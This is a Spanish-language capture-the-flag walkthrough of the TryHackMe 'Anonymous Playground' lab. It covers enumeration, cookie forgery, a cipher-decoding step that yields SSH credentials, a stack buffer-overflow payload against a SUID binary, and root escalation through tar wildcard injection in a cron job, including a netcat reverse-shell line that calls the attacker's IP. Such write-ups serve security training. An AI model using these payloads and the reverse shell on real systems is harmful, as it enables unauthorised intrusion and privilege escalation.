






La máquina Anonymous Playground de TryHackMe está inspirada en el colectivo de hacktivismo Anonymous y presenta un entorno realista donde se simulan vulnerabilidades web y de sistema. Clasificada como dificultad media, esta máquina está orientada al aprendizaje práctico mediante técnicas comunes en auditorías de seguridad.
#nmap -Pn -sC -sV -T5 -v 10.10.219.48
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-21 10:46 AST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:46
Completed NSE at 10:46, 0.00s elapsed
Initiating NSE at 10:46
Completed NSE at 10:46, 0.00s elapsed
Initiating NSE at 10:46
Completed NSE at 10:46, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 10:46
Completed Parallel DNS resolution of 1 host. at 10:46, 0.02s elapsed
Initiating SYN Stealth Scan at 10:46
Scanning 10.10.219.48 [1000 ports]
Discovered open port 80/tcp on 10.10.219.48
Discovered open port 22/tcp on 10.10.219.48
Completed SYN Stealth Scan at 10:46, 3.43s elapsed (1000 total ports)
Initiating Service scan at 10:46
Scanning 2 services on 10.10.219.48
Completed Service scan at 10:47, 6.96s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.219.48.
Initiating NSE at 10:47
Completed NSE at 10:47, 10.10s elapsed
Initiating NSE at 10:47
Completed NSE at 10:47, 1.35s elapsed
Initiating NSE at 10:47
Completed NSE at 10:47, 0.00s elapsed
Nmap scan report for 10.10.219.48
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 60:b6:ad:4c:3e:f9:d2:ec:8b:cd:3b:45:a5:ac:5f:83 (RSA)
| 256 6f:9a:be:df:fc:95:a2:31:8f:db:e5:a2:da:8a:0c:3c (ECDSA)
|_ 256 e6:98:52:49:cf:f2:b8:65:d7:41:1c:83:2e:94:24:88 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/zYdHuAKjP
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Proving Grounds
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 533ABADAA92DA56EA5CB1FE4DAC5B47E
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Se realizó un escaneo agresivo (-T5) con scripts por defecto (-sC) y detección de versiones (-sV) sin realizar ping previo (-Pn). El objetivo respondió en los puertos 22 (SSH) y 80 (HTTP). Destaca el uso de Apache 2.4.29 y un archivo robots.txt que revela una ruta potencialmente interesante: /zYdHuAKjP. Esta información será clave para la fase de enumeración web.

Al acceder al archivo robots.txt en el puerto 80, encontramos una entrada Disallow: /zYdHuAKjP. Este tipo de rutas suelen estar ocultas intencionadamente para evitar el rastreo por parte de bots, pero para nosotros como pentesters representa un punto de interés. Esta ruta puede contener información sensible o funcionalidad expuesta que no debería ser accesible directamente.
🔎 Próximo paso: Visitar /zYdHuAKjP para analizar su contenido y comportamiento.

Al visitar la ruta oculta descubierta en robots.txt, el servidor responde con el mensaje:
"You have not been granted access. Access denied."
Esto sugiere que el acceso a la página está condicionado, posiblemente por cookies, cabeceras HTTP específicas o algún mecanismo de autenticación por IP o sesión.

Al recibir inicialmente el mensaje "Access denied" en la ruta /zYdHuAKjP, se procedió a inspeccionar el almacenamiento del navegador (DevTools → Storage → Cookies). Se identificó que no había ninguna cookie activa, así que se agregó manualmente una nueva con valor:
Name: access
Value: granted
Tras recargar la página con esta cookie, el mensaje cambió a "Access granted", revelando un string codificado:
hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhMgAzAfHfN

Para descifrar la cadena ofuscada, utilicé el siguiente script en Python. La lógica detrás del cifrado consiste en pares de letras donde cada letra representa una posición en el alfabeto (a=1, b=2, ..., z=26). Se suman ambas posiciones y, si el resultado es 27, se convierte en 'a'; de lo contrario, se toma la letra correspondiente a la suma - 1. Luego, se vuelve a insertar el separador "::" después del quinto carácter para revelar el formato original.
Este script toma la cadena completa, elimina el ::, separa en bloques de 2 letras, aplica la lógica de descifrado, y reconstruye el texto plano.
#python3 deco.py
Password found: magna::magnaisanelephant
Al ejecutar el script de descifrado (deco.py) con Python3, esto reveló un par de credenciales en formato usuario::contraseña, extraídas a partir de la cadena ofuscada:
Estas credenciales fueron clave para avanzar en la máquina, ya que me permitieron autenticarme en el servicio identificado durante la fase de enumeración.
#ssh magna@10.10.219.48
The authenticity of host '10.10.219.48 (10.10.219.48)' can't be established.
ED25519 key fingerprint is SHA256:zKvTLbgKsGoKUlP7w/r2yJkjWulPOJtp0DhBDy/GlFQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.219.48' (ED25519) to the list of known hosts.
magna@10.10.219.48's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-109-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
System information disabled due to load higher than 1.0
3 packages can be updated.
0 updates are security updates.
Last login: Fri Jul 10 13:54:20 2020 from 192.168.86.65
magna@anonymous-playground:~$
Se accedió al sistema remoto mediante el protocolo SSH con el usuario magna, obteniendo una sesión interactiva en un entorno Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-109-generic x86_64).
$ ls -la
total 64
drwxr-xr-x 7 magna magna 4096 Jul 10 2020 .
drwxr-xr-x 5 root root 4096 Jul 4 2020 ..
lrwxrwxrwx 1 root root 9 Jul 4 2020 .bash_history -> /dev/null
-rw-r--r-- 1 magna magna 220 Jul 4 2020 .bash_logout
-rw-r--r-- 1 magna magna 3771 Jul 4 2020 .bashrc
drwx------ 2 magna magna 4096 Jul 4 2020 .cache
drwxr-xr-x 3 magna magna 4096 Jul 7 2020 .config
drwx------ 3 magna magna 4096 Jul 4 2020 .gnupg
drwxrwxr-x 3 magna magna 4096 Jul 4 2020 .local
-rw-r--r-- 1 magna magna 807 Jul 4 2020 .profile
drwx------ 2 magna magna 4096 Jul 4 2020 .ssh
-rw------- 1 magna magna 817 Jul 7 2020 .viminfo
-r-------- 1 magna magna 33 Jul 4 2020 flag.txt
-rwsr-xr-x 1 root root 8528 Jul 10 2020 hacktheworld
-rw-r--r-- 1 spooky spooky 324 Jul 6 2020 note_from_spooky.txt
magna@anonymous-playground:~$ cat note_from_spooky.txt
Hey Magna,
Check out this binary I made! I've been practicing my skills in C so that I can get better at Reverse
Engineering and Malware Development. I think this is a really good start. See if you can break it!
P.S. I've had the admins install radare2 and gdb so you can debug and reverse it right here!
Best,
Spooky
magna@anonymous-playground:~$ cat flag.txt
9184177ecaa83073cbbf36f1414cc029
magna@anonymous-playground:~$
Se inspeccionó el contenido del home del usuario magna (/home/magna/) mediante un listado detallado (ls -la), lo cual permitió identificar varios archivos de interés tanto para la obtención de flags como para posibles vectores de escalada de privilegios.
Archivos relevantes encontrados:
magna@anonymous-playground:~$ cat note_from_spooky.txt
Hey Magna,
Check out this binary I made! I've been practicing my skills in C so that I can get better at Reverse
Engineering and Malware Development. I think this is a really good start. See if you can break it!
P.S. I've had the admins install radare2 and gdb so you can debug and reverse it right here!
Best,
Spooky
magna@anonymous-playground:~$
Encontramos una nota de "Spooky" dirigida a "Magna", donde menciona haber creado un binario en C como práctica para mejorar en Ingeniería Reversa y Desarrollo de Malware. Además, sugiere intentar romperlo utilizando herramientas como radare2 y gdb, las cuales ya están disponibles en el sistema.
magna@anonymous-playground:~$ file hacktheworld
hacktheworld: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=7de2fcf9c977c96655ebae5f01a013f3294b6b31, not stripped
magna@anonymous-playground:~$
El binario hacktheworld es un ejecutable ELF de 64 bits, dinámicamente enlazado y no está strippeado (lo que significa que aún contiene información útil como símbolos de funciones). Además, tiene el bit SUID activo, lo que sugiere que se ejecutará con privilegios elevados — un objetivo interesante para explotación y escalada de privilegios.

Después de analizar el binario hacktheworld en radare2 con el comando aaa, encontramos varias funciones interesantes. Destaca la presencia de sym.call_bash y sym.main, además de funciones importadas como system, gets, puts, setuid y sleep. El binario no está strippeado, lo que facilita la ingeniería inversa. El uso de system y gets puede implicar vulnerabilidades de ejecución de comandos o exploits por buffer overflow.

Al analizar la función sym.call_bash, observamos que despliega varios mensajes relacionados con Anonymous y realiza pequeñas pausas entre ellos usando sleep(1). Después, llama a setuid(1337) —lo cual no tendría efecto especial porque 1337 no es un ID de sistema privilegiado estándar— y finalmente ejecuta /bin/sh mediante system("/bin/sh"). Conclusión, si esta función es alcanzable, podríamos obtener una shell interactiva directamente, potencialmente con privilegios elevados si el bit SUID de root está correctamente configurado en el binario.
magna@anonymous-playground:~$ python -c 'print "A" *50' | ./hacktheworld
Who do you want to hack? magna@anonymous-playground:~$
magna@anonymous-playground:~$ python -c 'print "A" *60' | ./hacktheworld
Who do you want to hack? magna@anonymous-playground:~$
magna@anonymous-playground:~$ python -c 'print "A" *72' | ./hacktheworld
Segmentation fault (core dumped)
magna@anonymous-playground:~$
Al probar el binario hacktheworld con entradas de diferente longitud, notamos que con 50 y 60 caracteres funciona normalmente, pero al enviar 72 caracteres provoca un Segmentation Fault, indicando un desbordamiento de búfer (buffer overflow).
magna@anonymous-playground:~$ readelf -s hacktheworld | grep -i "call_bash"
50: 0000000000400657 129 FUNC GLOBAL DEFAULT 13 call_bash
magna@anonymous-playground:~$
En este punto se utiliza readelf -s para enumerar la tabla de símbolos del binario hacktheworld, buscando específicamente la función call_bash. El resultado muestra que call_bash es un símbolo global de tipo FUNC (función), con dirección base 0x400657 y un tamaño de 129 bytes.
Este hallazgo es clave para la explotación, ya que permite identificar la dirección exacta a la que debe saltar el flujo de ejecución tras el desbordamiento de buffer. Inyectando esta dirección en la pila (como se hace más adelante con "\x57\x06\x40\x00\x00\x00\x00\x00" o "\x58\x06\x40...", dependiendo del punto exacto de retorno), se logra ejecutar call_bash directamente, lo cual contiene el payload deseado (setuid(1337) + /bin/sh).
magna@anonymous-playground:~$ python -c 'print "A" *72 + "\x58\x06\x40\x00\x00\x00\x00\x00"' | ./hacktheworld
Who do you want to hack?
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
Segmentation fault (core dumped)
Se construyó un payload que consiste en 72 bytes de relleno ("A") seguidos por la dirección 0x400658 (correspondiente a la función call_bash). Al ejecutarlo, logramos que el binario imprima los mensajes de sym.call_bash, lo que confirma que controlamos la ejecución y redirigimos exitosamente el flujo al código deseado.
magna@anonymous-playground:~$ (python -c 'print "A" *72 + "\x58\x06\x40\x00\x00\x00\x00\x00"'; cat) | ./hacktheworld
Who do you want to hack?
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
whoami
spooky
which python
/usr/bin/python
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
spooky@anonymous-playground:~$
En este paso se confirma la explotación exitosa de una vulnerabilidad de buffer overflow en el binario hacktheworld. El payload inyectado ("A" * 72 + "\x58\x06\x40\x00\x00\x00\x00\x00") sobrescribe la dirección de retorno en la pila, redirigiendo el flujo de ejecución a la función sym.call_bash, la cual contiene una secuencia de comandos que imprime un mensaje estilo "Anonymous" y ejecuta una shell con setuid(1337) seguido de system("/bin/sh").
Al encadenar el payload con un cat dentro de un subshell, se mantiene la entrada estándar abierta para interactuar con la shell resultante. Luego, se comprueba con whoami que el nuevo usuario es spooky, y se mejora la interacción usando pty.spawn("/bin/bash"), obteniendo así una terminal más estable y funcional.
spooky@anonymous-playground:/usr/bin$ cd /etc
cd /etc
spooky@anonymous-playground:/etc$ cat cront*
cat cront*
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user command
17 * * * * root cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/1 * * * * root cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
#
spooky@anonymous-playground:/etc$
Al explorar el directorio /etc, se encontró el archivo crontab que define las tareas programadas en el sistema. Un aspecto importante es que el archivo contiene una entrada programada para el usuario root, específicamente en la línea:
*/1 * * * * root cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
Esta tarea ejecuta un backup del directorio /home/spooky cada minuto, lo que puede ser una posible puerta trasera o un mecanismo para mover datos de forma persistente.
spooky@anonymous-playground:~$ cd /home
cd /home
spooky@anonymous-playground:/home$ ls
ls
dev magna spooky
spooky@anonymous-playground:/home$ cd spooky
cd spooky
spooky@anonymous-playground:/home/spooky$ echo "mkfifo /tmp/lhennp; nc 10.2.29.254 4444 0/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
54 4444 0/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
spooky@anonymous-playground:/home/spooky$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh shell.sh"
shell.sh""--checkpoint-action=exec=sh
spooky@anonymous-playground:/home/spooky$
intentamos explotar una vulnerabilidad de inyección en comandos tar mediante opciones especiales de checkpoint, una técnica bien conocida para escaladas de privilegios si un proceso privilegiado ejecuta archivos .tar manipulados.
#nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.29.254] from (UNKNOWN) [10.10.33.251] 32938
whoami
root
ponemos a Netcat a la escucha y esperemos unos minutos y obtenderemos el root.